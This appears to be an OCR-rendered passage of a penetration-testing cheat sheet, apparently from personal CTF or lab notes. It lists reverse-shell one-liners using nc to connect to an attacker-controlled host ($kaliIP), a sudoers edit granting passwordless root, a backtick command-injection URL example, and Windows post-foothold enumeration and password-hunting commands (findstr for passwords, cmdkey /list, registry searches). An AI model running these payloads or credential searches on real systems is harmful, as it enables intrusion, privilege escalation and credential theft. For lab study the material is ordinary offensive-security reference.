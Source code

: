 #### Other
Reverse shells:
- `busybox nc $kaliIP 4444 -e sh`
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $kaliIP $kaliPort >/tmp/f`

Add file to path:
`export PATH="/usr/lib/gcc/i486-linux-gnu/4.6/:$PATH"`

If you can edit `/etc/sudoer`:
- `"echo $user ALL=(ALL) NOPASSWD: ALL >> c:$LFILE"`

Remember that backticks can take precedence over other commands. Ex:
- In URL: 10.10.186.101:8081/ping?ip=`ls`

## After Windows Foothold

### Local Enumeration

#### cmd
User enum:
- `whoami`
- `whoami /groups` - display groups of current user
- `whoami /priv` - check our privileges
- `net user` - get list of all local users on machine (this will not include service accounts such as inetserv)
- `net user steve` - get user info for steve
- `net group` - all local groups
- `net localgroup administrator` - can sometimes not work as just `net localgroup` if we don't have a logged in session
findstr (grep for Windows) commands: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr
- `wmic qfe` - check patches
- `wmic logicaldisk get caption, description, providername` - checks drives
Network enum:
- `ipconfig` or `ipconfig /all`
- `arp -a` - (arp -all) - checks IP and MAC addresses
- `netstat -ano` - what ports are listening/connected, take note if anything is firewalled or not shown in the originalnmap scan

Running Processes/Services
`tasklist` - Get a list of running processes
`tasklist /SVC` -  services

Scheduled Tasks:
- `schtasks /query /fo LIST /v`

Search:
- `where /R c:\windows bash.exe` - where in `C:\Windows` is bash.exe (/R means recursive)
- `dir /R` - like `ls -la`

Password hunting:
- `findstr /si password *.txt *.ini *.config` - checks from whichever directory and subdirectories and ignores case for the string password
- `cmdkey /list` - To list the stored credentials on the machine.
- `reg query HKLM /f pass /t REG_SZ /s` - pay attention to ControlSet keys
